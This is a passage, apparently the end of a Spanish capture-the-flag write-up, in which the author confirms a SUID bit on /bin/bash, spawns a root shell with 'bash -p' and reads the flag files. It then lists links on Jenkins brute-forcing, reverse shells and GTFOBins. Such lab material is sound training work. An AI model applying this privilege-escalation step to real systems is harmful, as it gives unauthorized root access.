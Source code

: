 Chequemos si se hizo el cambio:
```bash
tomate@gazpacho:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Ahí está, si se cambiaron los permisos.

Usemos la **Bash** con privilegios y obtengamos las flags:
```bash
tomate@gazpacho:~$ bash -p
bash-5.2# whoami
root
bash-5.2# cat /home/tomate/user.txt
...
bash-5.2# cat /root/root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.hackingarticles.in/jenkins-penetration-testing/
* https://pentest-tools.com/vs/brute-force-dev-ci-cd-apps
* https://github.com/blu3ming/Jenkins-Brute-Force
* https://www.revshells.com/
* https://gtfobins.github.io/gtfobins/find/
* https://gtfobins.github.io/gtfobins/aws/
* https://gtfobins.github.io/gtfobins/crash/
* https://gtfobins.github.io/gtfobins/cat/
* https://gtfobins.github.io/gtfobins/mail/
* https://www.bettercap.org/legacy/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
